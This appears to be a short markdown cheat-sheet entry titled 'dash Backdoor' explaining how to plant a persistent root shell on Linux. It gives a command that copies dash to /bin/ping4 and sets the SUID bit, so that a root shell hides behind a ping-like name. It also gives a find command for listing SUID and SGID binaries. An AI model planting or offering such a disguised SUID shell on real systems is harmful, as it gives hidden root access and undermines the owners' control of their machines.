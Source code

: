 # dash Backdoor

If you run a program which has the SUID bit set, then you have the rights of the user owning that file. That can be useful for ping or passwd, but probably isn’t for a shell. That’s why you can’t set the SUID bit on the bash. The “dash”, however, allows that

```
sudo cp /bin/dash /bin/ping4 && sudo chmod u+s /bin/ping4
```

To find SUID binaries:

`find / ( -perm -4000 -o -perm -2000 ) -type f -exec ls -la {} ;`

You’ll get a rootshell by simply executing ping4.
